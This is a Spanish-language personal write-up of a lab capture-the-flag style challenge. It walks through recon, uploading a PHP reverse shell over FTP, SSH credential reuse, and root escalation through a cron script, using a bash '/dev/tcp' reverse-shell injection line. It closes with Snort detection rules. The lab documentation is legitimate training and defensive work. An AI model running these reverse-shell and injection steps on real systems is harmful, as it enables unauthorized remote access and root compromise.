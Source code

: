 # 🛡️ Reto de Ciberseguridad: Intrusión y Defensa en "IDServiceVM"

> Documentación personal del reto de ciberseguridad en entorno controlado. Este archivo recoge paso a paso el análisis, ataques, accesos, escalada de privilegios y defensa con reglas IDS. Contiene explicaciones y comandos clave para futuras referencias.

---

## 🎯 Objetivos del reto

1. **Acceso Inicial Múltiple:**

   * Acceder a la máquina víctima por **FTP** subiendo una shell web.
   * Acceder por **SSH** con las mismas credenciales.

2. **Escalada de privilegios:**

   * Elevar privilegios hasta obtener una shell como `root`.

3. **Defensa y Detección (Blue Team):**

   * Crear reglas Snort para detectar vectores de ataque utilizados.

---

## 🧩 Fase 1: Reconocimiento y Acceso Inicial

### 🔌 1.1 Configuración de red

* Tipo de red usada: **Red NAT personalizada (Red NAT de VirtualBox)**.
* Ambas VMs (Kali + IDServiceVM) conectadas a la misma red virtual.

### 🔎 1.2 Descubrimiento de IP

```bash
sudo nmap -sn 10.0.2.0/24
```

* Se identificó la IP de la víctima: `10.0.2.10`
* MAC: Oracle VirtualBox NIC

### 📡 1.3 Escaneo de puertos

```bash
sudo nmap -sS -p- 10.0.2.10
```

* Puertos abiertos:

  * `21` FTP
  * `22` SSH
  * `80` HTTP
  * `5011` Servicio desconocido (posiblemente vulnerable)

### 📜 1.4 Enumeración de servicios

```bash
sudo nmap -sV -sC 10.0.2.10
```

* Se obtienen banners de versión y posibles vulnerabilidades
* Banner grabbing en HTTP, SSH y FTP realizado para asociar CVEs

### 🌐 1.5 Enumeración Web

```bash
gobuster dir -u http://10.0.2.10 -w /usr/share/wordlists/dirb/common.txt
```

* Búsqueda de archivos sensibles: `README`, `config.php`, `.git`, etc.
* Uso de `curl`, `nikto`, `whatweb` para fingerprinting web.

### 🐚 1.6 Acceso FTP + Web Shell

```bash
ftp 10.0.2.10
# Subir php-reverse-shell.php (modificada con IP de Kali y puerto 4444)
```

En Kali:

```bash
nc -lvnp 4444
```

En navegador:

```
http://10.0.2.10/uploads/php-reverse-shell.php
```

➡️ Acceso conseguido.

### 🐚 1.7 Acceso SSH

```bash
ssh usuario@10.0.2.10
```

➡️ Mismo usuario/credenciales reutilizadas.

---

## 🔐 Fase 2: Escalada de Privilegios

### 🧠 2.1 Enumeración interna

```bash
whoami
sudo -l
find / -perm -4000 2>/dev/null
ps aux | grep root
cat /etc/crontab
```

### 🔍 2.2 Análisis de scripts

* Revisar scripts ejecutados por cron o root.
* Buscar comandos con entradas no sanitizadas.

### 💣 2.3 Explotación

Ejemplo:

```bash
echo '$(/bin/bash -i >& /dev/tcp/10.0.2.15/4445 0>&1)' > /etc/backup-files.txt
```

Y en Kali:

```bash
nc -lvnp 4445
```

➡️ Shell como root obtenida.

---

## 🔒 Fase 3: Defensa y Detección (IDS - Snort)

### 🧷 Reglas creadas:

#### 1. Acceso a archivo sensible por HTTP

```snort
alert tcp any any -> any 80 (msg:"[ALERTA] Acceso a archivo sensible"; content:"README"; http_uri; nocase; sid:100001;)
```

#### 2. Subida de archivos por FTP

```snort
alert tcp any any -> any 21 (msg:"[ALERTA] Subida de archivo por FTP"; content:"STOR"; nocase; sid:100002;)
```

#### 3. Conexión SSH detectada

```snort
alert tcp any any -> any 22 (msg:"[ALERTA] Conexión SSH detectada"; flags:S; sid:100003;)
```

#### 4. Inyección de comandos por URL

```snort
alert tcp any any -> any 80 (msg:"[ALERTA] Inyección de comandos"; content:";cat"; http_uri; nocase; sid:100004;)
```

---

## 📘 Observaciones y Notas personales

* Recordar revisar `robots.txt` y `.git` en enumeraciones web.
* Los puertos altos (>1024) pueden ser servicios web alternativos.
* Usar `searchsploit` para encontrar CVEs por versión:

  ```bash
  searchsploit apache 2.4.18
  ```
* Snort es muy potente, pero también sensible a falsos positivos.
* Documentar todo siempre ayuda a ganar velocidad en futuras auditorías.

---

## ✅ Estado del reto

* [x] Acceso FTP
* [x] Web Shell activa
* [x] Acceso SSH
* [x] Escalada a root
* [x] Reglas IDS funcionando

---

**Fin del documento**
📁 Archivo de uso personal para repaso, replicación o actualización futura.
